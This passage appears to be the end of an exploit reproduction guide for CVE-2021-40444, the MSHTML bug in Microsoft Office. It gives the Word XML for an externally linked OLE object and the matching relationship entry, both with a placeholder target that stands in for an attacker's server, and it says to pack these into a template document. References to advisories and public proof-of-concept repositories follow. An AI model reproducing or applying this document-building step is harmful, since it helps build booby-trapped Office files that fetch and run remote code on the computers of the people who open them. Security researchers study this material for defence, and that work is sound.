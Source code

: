 ```
  <o:OLEObject Type="Link" ProgID="TARGET_HERE" ShapeID="_x0000_i1025" DrawAspect="Content" r:id="rId5" UpdateMode="OnCall">
    <o:LinkType>EnhancedMetaFile</o:LinkType>
    <o:LockedField>false</o:LockedField>
    <o:FieldCodes>\f 0</o:FieldCodes>
  </o:OLEObject>
</w:object>
```

Check that `word/_rels/document.xml.rels` have good relation to the above thing:

```
<Relationship Id="rId32" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="TARGET_HERE" TargetMode="External"/>
<Relationship Id="rId31" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="NULL" TargetMode="External"/>
```

Pack that to create word document to used as template.

## References

  1. <https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444>
  2. <https://www.sentinelone.com/blog/peeking-into-cve-2021-40444-ms-office-zero-day-vulnerability-exploited-in-the-wild/>
  3. <http://download.microsoft.com/download/4/d/a/4da14f27-b4ef-4170-a6e6-5b1ef85b1baa/[ms-cab].pdf>
  4. <https://github.com/lockedbyte/CVE-2021-40444/blob/master/REPRODUCE.md>
  5. <https://github.com/klezVirus/CVE-2021-40444>
